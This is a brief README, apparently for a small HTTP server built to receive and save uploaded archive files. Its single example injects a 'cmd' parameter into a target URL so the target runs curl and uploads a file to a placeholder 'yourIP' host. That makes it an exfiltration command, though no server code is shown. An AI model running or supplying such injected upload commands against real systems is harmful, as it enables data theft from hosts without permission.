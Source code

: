 # HTTPServer
HTTP server that can accept and save the archive file when it is sent over HTTP protocol

http://site:port ?cmd=curl+yourIP+--upload-file+your.file
